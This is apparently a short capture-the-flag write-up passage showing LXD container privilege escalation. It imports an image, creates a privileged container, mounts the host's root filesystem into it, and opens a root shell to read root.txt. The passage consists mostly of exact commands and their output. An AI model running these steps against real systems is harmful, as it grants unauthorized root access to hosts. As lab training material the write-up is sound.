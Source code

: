 ```console
```
seem like we need to run lxd is not created yet. let run `lxd init` and press enter for everything (create with defualt setting). now we gonna create container -> device as root. then spawn a shell to gain root privilage!!
```
$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
Error: Image with same fingerprint already exists
$ lxc init kurohat kurocontainer -c security.privileged=true
lxc init kurohat kurocontainer -c security.privileged=true
Creating kurocontainer
$ lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
Device kurodevice added to kurocontainer
$ lxc start kurocontainer
lxc start kurocontainer
$ lxc exec kurocontainer /bin/sh
lxc exec kurocontainer /bin/sh
~ # whoami  
whoami
root
~ # ls  /mnt/root/root/
ls  /mnt/root/root/
root.txt
```




